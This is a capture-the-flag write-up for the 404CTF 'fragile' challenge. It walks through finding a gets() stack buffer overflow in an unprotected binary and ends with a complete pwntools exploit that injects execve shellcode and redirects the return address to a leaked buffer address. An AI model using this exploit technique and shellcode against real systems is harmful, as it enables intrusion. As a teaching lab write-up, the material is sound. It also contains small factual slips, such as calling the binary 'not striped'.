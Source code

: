 Before we start you need to download the binary from here : [Binary](./fragile).

Here we go let's start by running the binary and see what we have : 

````console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ ./fragile
Montrez-nous de quoi vous êtes capable !
Cadeau : 0x7fff8ec7ec20
Asslema ya Hmema
````

As you can see the binary gave us some random memory address with a beautiful hello in *french*. Why don't we start by checking the architecture of the binary with : 
```console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ file fragile
```
We got : 

````bash
fragile: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6a457609506482cdebb144dbacd9c1f6fba34955, stripped
````
As we can see the architecture of the binary is 0x64 bit, it's also dynamically linked and not striped. Let's try checking out the mitigations that is ON : 

````console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ pwn checksec fragile
````

We got : 

````bash 
[*] '/mnt/c/Users/IR0NYTE/Desktop/ctf/fragile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
````

So as you can see we have no stack canary protecting the stack from overriding the return of the program, we also have the right to execute code in the stack since the **NX** is disabled. Since this two mitagations are off i was curious a little of bit to know more about this random address that the binary was throwing at me so i fired up my ghidra and started making some analysis on it, i tried to decompile the main. Here's what i got : 

<img src = "./404_CTF_sansProtection.png">

After a quick look at the main, i noticed that there was a call to the **gets** function wich was a little of bit wired since the **gets** function have no limit on the size of the input which can lead to a buffer overflow attack. After that, i have noticed also that the address that the program was displaying was the address of the buffer. The idead is quite simple, we will try to inject a 0x64 bit shellcode in the beginning of the buffer from [Shell Storm](https://shell-storm.org/shellcode/) that will give us a *system("bin/bash")* Syscall, after that we will try to overflow the buffer until we get to the return address of the program than just redierct the return to the address of the buffer to execute our malicious shellcode. so we needed to calculate the offset between the buffer and the return address. Let's fire up the gdb and set a break point after that **gets** call so i just typed in "mike" and then tried to calculate the offset from there :

````gdb
gef➤  search-pattern "mike"
[+] Searching 'mike' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x6022a0 - 0x6022a6  →   "mike\n"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffe0f0 - 0x7fffffffe0f4  →   "mike"
gef➤  i f
Stack level 0, frame at 0x7fffffffe140:
 rip = 0x400662; saved rip = 0x7ffff7e0d7fd
 called by frame at 0x7fffffffe210
 Arglist at 0x7fffffffe0e8, args:
 Locals at 0x7fffffffe0e8, Previous frame's sp is 0x7fffffffe140
 Saved registers:
  rbp at 0x7fffffffe130, rip at 0x7fffffffe138
````
Offset = 0x7fffffffe138 - 0x7fffffffe0f0 = 0x48.

Here's the final exploit : 

````python
from pwn import *

#target = remote('challenge.404ctf.fr', 31720)
target = process('./fragile') 

# Setting up the leak
# 0x7ffe3c40e910
screen = target.recvline().decode()
leak = target.recvline().decode().strip("Cadeau :").strip("\n")
leak = bytes(leak, 'utf-8')
leak = int(leak, 16)

# Print the leak
print("Leak : ", hex(leak))

# Setting up the Payload
offset = 0x48
payload = b""
payload += b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
payload += b"A"*(offset - len(payload))
payload += p64(leak)

#gdb.attach(target, gdbscript='b* 00400668')
target.sendline(payload)
target.interactive()
````





